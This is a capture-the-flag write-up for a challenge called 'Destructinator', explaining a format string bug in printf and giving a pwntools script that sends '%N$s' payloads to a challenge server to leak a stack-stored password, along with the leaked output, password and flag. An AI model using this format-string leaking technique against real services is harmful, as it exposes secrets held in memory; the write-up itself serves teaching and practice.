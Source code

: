 # Destructinator

Author: [roerohan](https://github.com/roerohan)

## Exploit

In this challenge, there is a format string vulnerability, since the `printf()` function directly accepts user input. The user can enter strings like `%s`, `%x`, `%p`, to leak items from the stack.

The password was stored as a local variable in the function, therefore it must be present on the stack. We run the following script to leak the stack.

```py
from pwn import *
host = 'overly.uniquename.xyz'
port = 8880

stack = []

for i in range(1, 100):
    try:
        p = remote(host, port)
        print(p.recv(1024))
        p.sendline('%{}$s'.format(i))
        print(p.recvline())
        y = p.recvline()

        stack.append(y)
        print(y)
        print(stack)
    except:
        pass
```

This gives an output like the following

```py
[b'(null)\n', b'\xd6.y\xe4\xfd\x7f\n', b'(null)\n', b'I\x89\xc0H\x85\xc0\x0f\x84\xc2\n', b'%11$s\n', b'1_l0v3_c4ts\n', b'H\x8d\x05\x88\xf4\x02\n', b'(null)\n', b'I\x83\xc5\x02A\x0f\xb7m\xfeI\x89\xc6L\x8dx\xfeM\x85\xe4u\x13\xeb\xcc\x0f\x1f@\n', b'(null)\n', b'\n', b'(null)\n', b'1_l0v3_c4ts\n', b'\n', b'\x85\xc0y\xe5H\xc7\xc0\xc0\xff\xff\xffH\x8bs\x08H\x8d\rb\xcf\x02\n'...]
```

We can see the string `1_l0v3_c4ts` in the array above, which is actually the password for the challenge. Entering this returns the flag:

```
dsc{7h3_p20ff3502_7h4nk5_y0u}
```